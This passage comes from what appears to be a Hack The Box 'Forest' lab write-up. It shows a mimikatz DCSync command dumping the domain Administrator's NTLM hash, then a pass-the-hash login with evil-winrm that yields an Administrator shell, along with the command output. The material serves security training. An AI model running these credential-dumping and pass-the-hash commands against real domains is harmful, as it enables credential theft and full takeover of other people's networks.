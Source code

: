mimikatz(commandline) # lsadump::dcsync /domain:htb.local /user:Administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 9/18/2019 9:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11************************

mimikatz(commandline) # exit
Bye!
*Evil-WinRM* PS C:\Users\ricknmorty1\Documents>
{{< / highlight >}}

Now that we have the (Domain) Administrator hash, we can simply pass the hash and get a shell, and finally, grab the root flag.

{{< highlight markdown >}}
root@kali:[~/www/mimikatz/x64]:
[Exit: 1] 17:12: evil-winrm -u'Administrator' -H'32693b11************************'   -i forest

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
htb\administrator S-1-5-21-3072663084-364016917-1341370565-500


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Group Policy Creator Owners            Group            S-1-5-21-3072663084-364016917-1341370565-520  Mandatory group, Enabled by default, Enabled group